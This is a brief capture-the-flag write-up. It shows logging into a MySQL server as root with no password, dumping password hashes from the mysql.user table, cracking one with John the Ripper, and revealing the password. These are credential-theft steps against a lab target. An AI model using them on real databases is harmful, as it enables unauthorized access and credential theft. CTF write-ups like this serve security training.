 # Database Password

We need to get the password of user flag from the MySQL database.
Because other users didn't work I tried to login as root with no password. It worked :).

```
mysql -u root
```

Now we can checkk out the databases:

```
SHOW DATABASES;
```

We see the mysql database so lets use it:

```
USE mysql;
```

Now we check the tables and see there is a user table in there, so we query this table top get additional information:

```
SHOW TABLES;
SELECT * FROM user;
```

We don't get a password but a hash used in Mysql (SHA1): 25A3DA0F4740480EE31E435E03CE4B58A4F1263B
we crack it using JTR:

```
printf "flag:*25A3DA0F4740480EE31E435E03CE4B58A4F1263B" > pass.hash
john --format=mysql-sha1 ./pass.hash
```

And we get the password: periwinkle


